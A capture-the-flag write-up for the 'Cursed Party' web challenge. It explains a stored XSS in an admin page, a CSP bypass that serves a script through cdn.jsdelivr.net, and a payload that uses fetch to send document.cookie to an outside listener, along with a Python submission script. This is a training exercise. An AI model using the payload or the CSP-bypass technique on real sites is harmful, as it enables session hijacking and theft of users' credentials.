 # [Web] Cursed Party

This web application has a simple form to send information about invitation to a party. Once an invitation is submitted, a bot with admin access will visit the page displaying the invitation requests.

```js
const flag = fs.readFileSync('/flag.txt', 'utf8');
[...]
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});
		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```

Stealing this cookie will give us the flag. Since we need to steal a cookie via a form, this is most likely by using an XSS.

Indeed the admin page displaying the requests is vulnerable to XSS

{% raw %}
```html
    <body>
        <div class="container" style="margin-top: 20px">
            {% for request in requests %}
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>

                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
```
{% endraw %}

However we do have one more thing to overcome. This site uses a [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header restricting from where Javascript can be loaded into the victim's browser.

```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

It uses `https://cdn.jsdelivr.net` as base URL for scripts: we can upload an XSS payload to Github, use JS Delivr to fetch that script and serve it as part of its CDN.

The XSS payload we will use should not use `eval`, as the CSP doesn't allow `unsafe-eval`. We can use `fetch` to send the cookie data

```html
<script>fetch('http://1.2.3.4:4444?aaa='+document.cookie, {method: 'GET',mode: 'no-cors'});</script>
```

Once this is hosted on Github, we use the corresponding JS Delivr as part of the invitation sent over the form, to be displayed to the admin bot.

```python
import requests

host = "http://1.2.3.4:32689"

xss = b'</p></div><script src="https://cdn.jsdelivr.net/gh/pgaulon/ctf-xss@main/troll.js"></script>'
payload = {
    "costume_type": "aaa",
    "email": "aaa@aa.aa",
    "halloween_name": xss_object,
    "trick_or_treat": "treats"
    }

response = requests.post(host + '/api/submit', json=payload)
print(response.text)
```

We then receive the callback on our listener, with the cookie containing the flag. The cookie being a [JWT](https://jwt.io/), it just needs an extra base64 decoding.
